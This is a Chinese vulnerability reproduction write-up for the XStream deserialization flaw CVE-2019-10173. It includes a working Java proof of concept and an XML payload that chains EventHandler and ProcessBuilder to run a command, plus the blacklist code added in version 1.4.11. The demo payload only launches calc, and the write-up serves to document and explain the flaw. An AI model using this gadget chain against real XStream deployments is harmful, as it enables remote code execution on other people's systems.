 （CVE-2019-10173）Xstream 远程代码执行漏洞
==========================================

一、漏洞简介
------------

Xstream 1.4.10版本存在反序列化漏洞CVE-2013-7285补丁绕过。

二、漏洞影响
------------

XStream \<= 1.4.6

XStream = 1.4.10

三、复现过程
------------

### poc

    package com.bigo;

    import com.thoughtworks.xstream.XStream;

    import java.beans.EventHandler;
    import java.io.IOException;
    import java.util.Set;
    import java.util.TreeSet;

    /**
     * Created by cfchi on 2019/7/26.
     */
    public class Main {
        public static String expGen(){
            XStream xstream = new XStream();
            Set<Comparable> set = new TreeSet<Comparable>();
            set.add("foo");
            set.add(EventHandler.create(Comparable.class, new ProcessBuilder("calc"), "start"));
            String payload = xstream.toXML(set);
            System.out.println(payload);
            return payload;
        }
        public static void main(String[] args) throws IOException {
            expGen();
            XStream xStream = new XStream();
            String payload = "<sorted-set>\n" +
                    "    <string>foo</string>\n" +
                    "    <dynamic-proxy>\n" +
                    "    <interface>java.lang.Comparable</interface>\n" +
                    "        <handler class=\"java.beans.EventHandler\">\n" +
                    "            <target class=\"java.lang.ProcessBuilder\">\n" +
                    "                <command>\n" +
                    "                    <string>cmd.exe</string>\n" +
                    "                    <string>/c</string>\n" +
                    "                    <string>calc</string>\n" +
                    "                </command>\n" +
                    "            </target>\n" +
                    "     <action>start</action>"+
                    "        </handler>\n" +
                    "    </dynamic-proxy>\n" +
                    "</sorted-set>\n";
           xStream.fromXML(payload);
        }
    }

### 1.4.7版本白名单

![](./.resource/(CVE-2019-10173)Xstream远程代码执行漏洞/media/rId26.png)

### 1.4.10版本，黑名单未开启

![](./.resource/(CVE-2019-10173)Xstream远程代码执行漏洞/media/rId28.png)

### 1.4.11版本，黑名单开启

#### 黑名单

    private class InternalBlackList implements Converter {
        private InternalBlackList() {
        }

        public boolean canConvert(Class type) {
            return type == Void.TYPE || type == Void.class || !XStream.this.securityInitialized && type != null && (type.getName().equals("java.beans.EventHandler") || type.getName().endsWith("$LazyIterator") || type.getName().startsWith("javax.crypto."));
        }

        public void marshal(Object source, HierarchicalStreamWriter writer, MarshallingContext context) {
            throw new ConversionException("Security alert. Marshalling rejected.");
        }

        public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
            throw new ConversionException("Security alert. Unmarshalling rejected.");
        }
    }

![](./.resource/(CVE-2019-10173)Xstream远程代码执行漏洞/media/rId31.png)

参考链接
--------

> http://www.polaris-lab.com/index.php/archives/658/
